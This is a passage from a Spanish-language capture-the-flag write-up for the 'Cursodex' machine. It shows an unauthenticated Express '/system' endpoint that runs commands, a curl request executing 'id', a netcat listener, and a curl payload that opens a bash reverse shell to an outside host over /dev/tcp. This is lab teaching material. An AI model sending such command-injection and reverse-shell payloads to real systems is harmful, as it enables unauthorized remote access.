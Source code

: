 ```bash
:: Progress: [220559/220559] :: Job [1/1] :: 6896 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

Encontramos el endpoint `/system` en el puerto `3001` mediante `POST` con un estado de `400`.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ curl http://127.0.0.1:3001/system -X POST -i
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 82
ETag: W/"52-vyMOWoUgY3ZCkbcRG52YRwnmlLc"
Date: Sun, 21 Sep 2025 23:56:30 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"error":"Se requiere el parámetro \"command\" y parámetros \"args\" válidos."} 
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "id"}'
{"output":"uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)\n","error":""}
```

Nos ponemos a escuchar con netcat en el puerto `8888`.

```bash
nc -lvnp 8888
```

y en otra shell enviamos la siguiente petición.

```bash
curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "bash", "args": ["-c", "/bin/bash -i >& /dev/tcp/192.168.1.181/8888 0>&1"]}'
```

Conseguimos una consola con el usuario `agent`.

![agent shell](../../../assets/images/cursodex/20250922_020059_image.png)

Podemos leer la flag de user.txt.

```bash
cat /home/agent/user.txt
```
